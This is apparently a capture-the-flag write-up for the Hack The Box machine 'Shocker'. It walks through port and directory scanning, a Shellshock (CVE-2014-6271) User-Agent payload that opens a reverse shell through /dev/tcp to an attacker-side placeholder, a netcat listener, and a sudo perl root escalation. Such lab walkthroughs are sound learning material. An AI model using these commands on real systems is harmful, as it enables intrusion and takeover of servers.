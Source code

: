 ```yaml
---
layout: post
title: "Shocker"
date: 2024-9-11 18:58:00 +0100
categories: [writeup, easy]
tags: [machine]
---
```


<p>
    <a href="https://app.hackthebox.com/machines/108">
        <img src="https://labs.hackthebox.com/storage/avatars/efef52a0fb63d9c8db0ab6e50cb6ac79.png" width="500"
        alt="Descripción">
    </a>
</p>

# Shocker Writeup

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Web Recon](#2-web-recon)
3. [Lateral Movements](#3-lateral-movement)
4. [Privilege Escalation](#4-privilege-escalation)

## 1. Recon

As usual, we start with an Nmap scan to identify open ports and services.

```bash	
figueron@kali$ nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:29 EDT
Nmap scan report for 10.10.10.56
Host is up (0.025s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 11.18 seconds
figueron@kali$ nmap -p 80,2222 -sCV -oA scans/nmap-tcpscripts 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:30 EDT
Nmap scan report for 10.10.10.56
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds
```

When visiting the website, we see a simple page with spider telling "Don't bug me!".

<p align="left">
    <img src="assets/img/writeupImgs/Shocker/image-20210516063155550.webp">
    <alt="Website">
</p>    

## 2. Web Recon

As we dont see anything interesting on the website, we can run a feroxbuster scan to find hidden directories.

```bash
figueron@kali$ feroxbuster -u http://10.10.10.56 -f -n

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.2.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.56
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.2.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🪓  Add Slash             │ true
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
403       11l       32w      294c http://10.10.10.56/cgi-bin/
403       11l       32w      292c http://10.10.10.56/icons/
403       11l       32w      300c http://10.10.10.56/server-status/
[####################] - 15s    29999/29999   0s      found:3       errors:0      
[####################] - 14s    29999/29999   2039/s  http://10.10.10.56
```

This was the execution that showed more info, with flags `-f` to append / to each request's URL, this means that there would be more paths inside this matches and `-n` to not recurse.

Next, we do this for every match we found.

For the `/cgi-bin/` directory, we can try for .sh, .cgi and .pl files, because they are common in this kind of directories. Cgi-bin is a directory used to execute scripts on the server side.

```bash
figueron@kali$ feroxbuster -u http://10.10.10.56/cgi-bin/ -x sh,cgi,pl

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.2.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.56/cgi-bin/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.2.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [sh, cgi, pl]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
200        7l       17w        0c http://10.10.10.56/cgi-bin/user.sh
[####################] - 57s   359988/359988  0s      found:1       errors:0      
[####################] - 57s   119996/119996  2089/s  http://10.10.10.56/cgi-bin/
```
We found a user.sh file, let's see what it contains.

<p align="center">
    <img src="assets/img/writeupImgs/Shocker/image-20210516070515215.webp">
    <alt="User.sh">
</p>

Going to the website with burp and capturing the request, we can see that the user.sh file is being executed and in this case this is the command `uptime`.

This would be an example of `uptime`:

```bash
figueron@kali$ uptime
 07:08:38 up 5 days, 16:27, 35 users,  load average: 0.00, 0.08, 0.18
```

## 3. CVE-2014-6271

After a bit of researching, I found this [interesting CVE](https://pentesterlab.com/exercises/cve-2014-6271). 

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
> **info**: "This vulnerability impacts the Bourne Again Shell (Bash). Bash is not usually available through a web application but can be indirectly exposed through a Common Gateway Interface (CGI)."
{: .prompt-info }
<!-- markdownlint-restore -->


```bash
figueron@kali$ curl -H "User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/<ip>/<port> 0>&1"
```

Now, we just listen to that port on the attacker machine and we will get a shell.

```bash
figueron@kali$ nc -lvnp <port>
```

# 4. Privilege Escalation

After getting a shell, we can see that we are the user `shelly`. So we can run `sudo -l` to see what we can run as root.

```bash
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

We can run perl as root, so we can use this to get a root shell.

<!-- markdownlint-capture -->
<!-- markdownlint-disable -->
> **TIP**: [GTFOBins](https://gtfobins.github.io/#) is a nice place to look for when there is a common binary that can be used to escalate privileges, this page contains lots of ways to exploit binaries.
{: .prompt-tip }
<!-- markdownlint-restore -->


```bash
shelly@Shocker:/home/shelly$ sudo perl -e 'exec "/bin/sh";'
```	

Now we can read the root flag.

Done !!